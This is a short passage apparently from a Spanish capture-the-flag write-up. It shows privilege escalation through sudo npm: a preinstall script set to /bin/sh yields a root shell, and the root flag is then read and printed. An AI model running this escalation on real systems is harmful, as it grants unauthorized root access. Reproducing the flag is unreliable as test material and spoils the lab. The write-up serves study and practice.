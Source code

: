 ```null
algernon@holiday:~$ TF=$(mktemp -d)
algernon@holiday:~$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
algernon@holiday:~$ sudo npm i -C $TF --unsafe-perm

> undefined preinstall /tmp/tmp.UqBOIEqysi
> /bin/sh

# whoami
root
```

Y puedo visualizar la segunda flag

```null
# cat /root/root.txt
41af8b2efde3eeb16e2e294484b5ce84
```